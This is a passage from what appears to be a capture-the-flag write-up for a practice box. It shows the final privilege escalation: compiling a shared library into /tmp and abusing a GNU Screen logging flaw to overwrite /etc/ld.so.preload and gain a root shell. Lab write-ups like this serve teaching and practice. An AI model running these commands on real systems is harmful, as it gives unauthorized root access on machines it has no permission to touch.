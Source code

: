 ``gcc -fPIC -shared -ldl /tmp/lib_shell.c -o /tmp/lib_shell.so``

+ **What we need to do now is to overwrite the /etc/ld.so.preload file with our shared library** *shell_library.so* **which executes the shell with root privilege. Let's first move into the /etc directory**

``cd /etc``

``screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/lib_shell.so"``

``screen -ls``

``/tmp/root_sh``

**And we are root!**

# ![17](images/root_flag(4).jpg?raw=true "root_flag")

+ **This was a very nice box, we learnt about .JPG corrupted files, a GNU Screen vulnerability, some ld.so.preload file overwriting to gain the desired shell and I encourage you hardly to read the [ld.so man page](https://man7.org/linux/man-pages/man8/ld.so.8.html).**
